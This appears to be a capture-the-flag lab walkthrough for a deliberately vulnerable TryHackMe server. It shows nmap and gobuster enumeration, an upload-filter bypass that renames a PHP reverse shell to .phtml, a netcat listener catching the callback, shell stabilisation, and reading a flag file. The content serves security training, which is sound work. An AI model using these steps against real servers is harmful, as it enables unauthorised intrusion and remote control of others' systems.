


- [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to get a reverse shell on a vulnerable server through a file upload.

**Lab Purpose:**

A shell account is a user account on a remote server. This user account will usually give the user access to a shell via a command-line interface protocol such as telnet or SSH. Getting a shell on a server is usually the first main goal of an attacker when they are looking to hack into a server. From this position, they can navigate around your server and escalate their privileges to take over the server entirely.

**Lab Tool:**

Kali Linux

**Lab Topology:**

You can use a Windows machine or Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

We will be conducting this attack against a TryHackMe server. This server is designed to be vulnerable so that this technique can be practiced. We can access the server with a free subscription.

First, open a terminal screen in your Kali machine. Make sure you have OpenVPN installed:

sudo apt update  
sudo upgrade openvpn

Login to tryhackme.com site with your own credentials. Create a free account if needed.

After successful login, you will be redirected to the page displaying OpenVPN client information.

By following the steps shown in the figure above, go up to step 3 and download the OpenVPN client config (clientname.ovpn) file to the your Kali machine. Go to the location where you downloaded the file and run this command in terminal:

sudo openvpn clientname.ovpn

Upon successful connection, follow steps 4 and 5 as shown in the above figure. The IP address here is your address on the client side, and we will use this information later. Write it down.

Open another browser tab in Kali then navigate to: [https://tryhackme.com/room/rrootme](https://tryhackme.com/room/rrootme)

On this page, scroll down until you see the “Join Room” button. Click it. On the next page, click the

“Start Machine” button under Task 1 to start the Lab.

By default, you have 1 hour to finish all tasks in that lab. However, if necessary, you can request additional time by clicking the “Add 1 hour” button at the top of the page.

The IP address shown in the picture above belongs to our targeted victim machine. Write this down too, we will reference it often.

### Task 2:

After starting the lab, let’s open a new browser tab in Kali and write the IP address of the target machine here; which is 10.10.54.248 in this instance. The goal of this lab is to get a shell on this machine.

The first step to any hack like this is to discover which ports are open using nmap. To do this, type the following into a terminal:

nmap -sV 10.10.54.248

We can see that there are two ports open, 22 and 80. There is nothing particularly interesting here so we will move on to the next step of enumeration

### Task 3:

The next step is to use the gobuster tool to enumerate the webserver for any interesting/hidden directories and URLs. To do this, open a terminal as root user and type the following:

gobuster dir -u 10.10.54.248 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt

This may take a while, but will uncover any interesting or unusual URLs we may be able to take advantage of.

After running gobuster for a while, we discover a number of URLs. Interesting ones are “/panel” and “/uploads”. If we visit “http://10.10.54.248/panel” URL, we will find that there is a file upload form. This will be our way into the server!

### Task 4:

Let’s try to send an empty “test.php” file to the upload page we just discovered on the target server;

As can be seen, “test.php” file was not accepted.

This time, let’s send a file named “test.txt”; we were able to send this file!

### Task 5:

The next step is to get a reverse shell by uploading a malicious file through this file upload form. A file written for this purpose already exists inside the Kali machine at this location:

/usr/share/webshells/php/php-reverse-shell.php

Place a copy into our home directory:

cp -v /usr/share/webshells/php/php-reverse-shell.php ~/phpshell.php

We open the file with an editor to update some areas in there. Here, we will write the IP address we saw earlier on the OpenVPN connection page (see Task 1), so that the phpshell.php knows which machine to call back to. There’s no need to change port number.

We know that we cannot upload files with “.php” extensions to the target server, but what about files with “.phtml” extension? “.phtml” essentially functions the same as “.php”. We will make the extension of our file “.phtml” and try to upload it to the target server:

mv -v phpshell.php phpshell.phtml

### Task 6:

Try to upload “phpshell.phtml” file to target and check if we succeed.

Done! We uploaded our evil PHP reverse shell code to the target server. Now, open a new terminal in Kali machine and type the following:

nc -lnvp 1234

This will tell netcat to listen for a connection on this port. Let’s go to the “/uploads” page and click the “phpshell.phtml” file to make it run. When the code runs, it will establish a TCP connection to port 1234 of our Kali machine. Remember, this port is already being listened to by netcat.

### Task 7:

Return to the terminal where netcat is running. You will see that you now have a shell on the server. However, it is only a temporary one and the shell will collapse if we do not make it stable. To do this, once you have a shell, type the following:

python -c ‘import pty;pty.spawn(“/bin/bash”)’

This will create a stable bash shell which we can use to navigate around the server. Now, we have started a reverse terminal from the target machine towards ourselves.

### Task 8:

One of the tryHackMe challenges is to find the “user.txt” file on the target server and read the data in it. Run the following commands on the terminal screen in the target server:

find / -type f -name user.txt 2>/dev/null

cat /var/www/user.txt

We were able to read this file because the user who ran PHP on the target server is also the owner of the user.txt file.

### Latest Post

-